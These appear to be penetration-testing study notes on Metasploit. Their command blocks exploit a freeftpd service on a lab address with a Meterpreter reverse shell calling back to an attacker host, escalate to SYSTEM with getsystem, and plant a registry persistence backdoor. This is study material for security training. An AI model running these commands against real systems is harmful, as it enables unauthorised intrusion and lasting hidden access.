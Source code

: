 * Identifying a vulnerable service.
* Searching for a proper exploit for that service.
* Loading and configuring the exploit.
* Loading and configuring the payload you want to use.
* Running the exploit code and getting access to the vulnerable machine.

A payload is used by an attacker to get:

* An OS Shell.
* A VNC or RDP connection.
* A Meterpreter shell.
* The execution of an attacker-supplied application.

A special payload, with many useful features under the penetration testing point of view is `meterpreter`.

```bash
service postgresql start
msfconsole
> help
> show -h
> search <searchterm> # search for a specific module by using the search cmd
> search skeleton
> search turboftp
> show exploits # impractical to use
> use exploit/windows/ftp/turboftp_port # to use exploit for turboftp
> info
> show options
> back
> show payloads
> set payload windows/meterpreter/reverse_tcp
> exploit
```

```bash
# Exploit freeftpd
> use exploit/windows/ftp/freeftpd_pass
> set ftpuser anonymous
> set rhosts 192.168.99.12
> set rport 21
> set payload windows/meterpreter/reverse_tcp
> set exitfunc process
> set lhost 192.168.99.100
> set lport 4444
> exploit
# Get user
> getuid
# Obtain System privileges on the machine
> getsystem
```

```bash
# Set backdoor
use exploit/windows/local/persistence
set reg_name backdoor
set exe_name backdoor
set startup SYSTEM
set session 1
set payload windows/meterpreter/reverse_tcp
set exitfunc process
set lhost 192.168.99.100
set lport 5555
set DisablePayloadHandler false
exploit //if the backdoor doesn't start immediately, use "exploit -j" instead
```
